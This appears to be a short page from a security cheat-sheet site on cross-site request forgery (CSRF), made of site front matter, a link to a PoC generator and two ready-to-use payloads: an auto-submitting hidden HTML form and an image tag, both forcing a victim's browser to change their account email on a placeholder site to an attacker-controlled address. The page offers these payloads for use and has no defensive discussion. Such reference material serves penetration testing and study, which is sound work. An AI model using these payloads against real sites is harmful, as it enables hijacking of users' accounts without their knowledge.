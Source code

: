 ```yaml
---
title: "CSRF"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```



- Free Poc Tool : 
https://security.love/CSRF-PoC-Genorator/

## Basic CSRF 

```sh
<html> 
<body> 
<form action="https://vulnerable-website.com/email/change" method="POST"> <input type="hidden" name="email" value="pwned@evil-user.net" /> </form> 
<script> document.forms[0].submit(); </script> 
</body> 
</html>
```

- Even possible to do so : 

```sh
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```